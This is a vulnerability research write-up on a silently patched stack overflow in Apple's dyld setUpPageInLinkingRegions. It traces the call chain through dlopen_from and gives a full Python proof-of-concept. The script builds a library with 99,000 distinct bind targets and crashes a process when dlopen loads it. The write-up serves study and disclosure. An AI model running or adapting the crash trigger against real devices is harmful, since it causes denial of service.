



## Bug in dyld4::setUpPageInLinkingRegions (Jan, 2026)

Tested on build 23B85 (26.1)

I stumbled upon this funny bug while investigating the root cause of CVE-2026-20700. It doesn't appear to be mentioned publicly, and there are no acknowledgments for it in the *OS 26.2 release notes — so it looks like a silent patch. Specifically, my attention was drawn to the following commit in the open-source dyld repository:  [diff](https://github.com/apple-oss-distributions/dyld/commit/3d26957467bbec4f999a0c27ebe09b6fc186f5cd#diff-478929b1ee6bcce8dc3c5822f1ec92892b38b477b377a32551e513a8f9b49f29R2354)




It's quite unusual to see a commit where only a few lines changed — and those lines relate to an upper-bound check and the TPRO stack. So I decided to dig deeper.

First, I wanted to verify that the protected stack is indeed 512 KB in size, as stated in the comment accompanying the patch. This is straightforwardly confirmed by the implementation of `ProtectedStack::allocateStack`. The memory manager allocates a single region of 0x84000 bytes, where one page (0x4000) serves as a guard and the remaining 0x80000 bytes (512 KB) constitute the actual stack.



Next, I identified all the places where `bindTargets.count()` could lead to problematic behavior given a 512 KB stack. The most compelling case was the `setUpPageInLinkingRegions` function, which performs an on-stack allocation of a buffer sized `bindTargets.count() * ptr_size` and then does a memcpy into it from data partially controlled by an attacker.




With the old upper bound (100,000 for the bind-targets count), it's possible to create a stack variable of roughly 781 KB — which clearly overflows the stack. But is this function even called within a protected-stack context? After some analysis, I found exactly one existing path into `setUpPageInLinkingRegions` that runs on the TPRO stack: through `dlopen_from`. The full call chain:

```
dyld4::setUpPageInLinkingRegions
dyld4::Loader::setUpPageInLinking::(CallBlock)
dyld4::Loader::setUpPageInLinking
dyld4::Loader::applyFixupsGeneric
dyld4::JustInTimeLoader::applyFixups
dyld4::APIs::dlopen_from::(Inner)
callWithProtectedStack
lsl::ProtectedStack::withProtectedStack
dyld4::RuntimeLocks::withLoadersWriteLockAndProtectedStack
dyld4::APIs::dlopen_from
```

To trigger this code path, we need to craft an intermediate library with a huge number of bind targets in its fixup chain and then `dlopen` it. The targets also appear to need to be distinct, so I created a helper library that exports 99,000 symbol stubs.

```py
"""
    b dyld`setUpPageInLinkingRegions
    b dyld`lsl::ProtectedStack::allocateStack
    process attach --name 'pwn' --waitfor
    
    runas
        ./out/pwn
"""

import os

COUNT = 99_000

with open("out/poc.s", "w") as f:
    f.write(".text\n")
    for i in range(COUNT):
        f.write(f".globl _pwn_{i}\n")
        f.write(f"_pwn_{i}: ret\n")

with open("out/vuln.s", "w") as f:
    f.write(".data\n")
    f.write(".align 3\n")
    f.write(".globl _pwn_array\n_pwn_array:\n")
    for i in range(COUNT):
        f.write(f".quad _pwn_{i}\n")

with open("out/pwn.c", "w") as f:
    f.write("#include <dlfcn.h>\n")
    f.write("int main() {\n")

    f.write("    dlopen(\"@executable_path/libvuln.dylib\", 2);\n") 
    f.write("    return 0;\n")
    f.write("}\n")


os.system("xcrun -sdk iphoneos clang -arch arm64e -dynamiclib ./out/poc.s -o out/libpoc.dylib -Wl,-fixup_chains -install_name @executable_path/libpoc.dylib")
os.system("xcrun -sdk iphoneos clang -arch arm64e -dynamiclib ./out/vuln.s -Lout -lpoc -o out/libvuln.dylib -Wl,-fixup_chains -install_name @executable_path/libvuln.dylib")
os.system("xcrun -sdk iphoneos clang -arch arm64e ./out/pwn.c -o out/pwn")
os.system("ldid -S'' out/*.dylib out/pwn")
```


Running the PoC produces a [crush](./pwn-2026-03-25-101608.ips).


--- 
Was the time well spent? Probably not — I don't see any realistic weaponization potential here. Still, it was entertaining to encounter such a curious empirical approach to bounds checking. On the upside, I now have a better understanding of how the chained-fixups mechanism works and sharpened my dyld debugging skills along the way.